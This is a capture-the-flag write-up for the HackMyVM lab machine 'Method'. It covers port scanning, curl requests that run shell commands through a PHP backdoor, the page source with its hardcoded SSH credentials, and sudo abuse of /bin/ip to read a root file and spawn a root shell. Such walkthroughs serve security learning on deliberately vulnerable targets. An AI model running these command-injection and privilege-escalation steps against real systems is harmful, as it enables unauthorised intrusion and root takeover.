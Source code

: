 ```yaml
---
layout: post
author: canarinho
title:  "Method"
date:   2021-12-31 09:30:26 AM -03
category: HackMyVM
---
```


[HackMyVM](https://hackmyvm.eu/machines/machine.php?vm=Method)

## Scanning n Fuzzing

{% highlight bash %}
Starting Nmap 7.92 ( [https://nmap.org](https://nmap.org/) ) at 2021-12-15 19:20 -03
Nmap scan report for method (192.168.15.93)
Host is up (0.0025s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5 (protocol 2.0)
| ssh-hostkey:
|   3072 4b:24:34:1f:41:10:88:b7:5a:6a:63:d9:f6:75:26:6f (RSA)
|   256 52:46:e7:20:68:c1:6f:90:2f:a6:ad:ee:6d:87:e7:28 (ECDSA)
|_  256 3f:ce:97:a9:1e:f4:60:f4:0e:71:e7:46:58:28:71:f0 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-title: Test Page for the Nginx HTTP Server on Fedora
|_http-server-header: nginx/1.18.0
OSVDB-3092: /sitemap.xml: This gives a nice listing of the site content.
{% endhighlight %}

{% highlight bash %}
+ OSVDB-3092: /sitemap.xml: This gives a nice listing of the site content.
+ OSVDB-3092: /www/: This might be interesting...
+ OSVDB-5692: /oekaki/: The PaintBBS Server may allow unauthorized access to the config files.
{% endhighlight %}

## Testing POST as method to see what hapeens

{% highlight bash %}
curl -X POST '<http://192.168.15.93/secret.php>' -d 'HackMyVM=id' -H 'Content-Type: application/x-www-form-urlencoded'

//the return
You Found ME : - (<pre>uid=33(www-data) gid=33(www-data) groups=33(www-data)
</pre>

{% endhighlight %}

## Trying to understand what's happening...

{% highlight bash %}
curl -X POST '<http://192.168.15.93/secret.php>' -d 'HackMyVM=cat secret.php' -H 'Content-Type: application/x-www-form-urlencoded'

//the return
You Found ME : - (<pre><?php
if(isset($_GET['HackMyVM'])){
        echo "Now the main part what it is loooooool";
        echo "<br>";
echo "Try other method";
        die;
}
if(isset($_POST['HackMyVM'])){
        echo "You Found ME : - (";
        echo "<pre>";
        $cmd = ($_POST['HackMyVM']);
        system($cmd);
        echo "</pre>";
        die;
}
else {
header("Location: <https://images-na.ssl-images-amazon.com/images/I/31YDo0l4ZrL._SX331_BO1,204,203,200_.jpg>");
}
$ok="prakasaka:th3-!llum!n@t0r";
?>
</pre>

{% endhighlight %}

And there it is, we got creds to login via ssh.

## Privesc

{% highlight bash %}
User prakasaka may run the following commands on method:
    (!root) NOPASSWD: /bin/bash
    (root) /bin/ip

{% endhighlight %}

Searching for exploits using "ip" command, we got that

{% highlight bash %}
//to read a specific file
LFILE=/root/rOot.txt
sudo /bin/ip -force -batch "$LFILE"

//to get shell as root
sudo /bin/ip netns add foo
sudo /bin/ip netns exec foo /bin/sh
sudo /bin/ip netns delete foo

{% endhighlight %}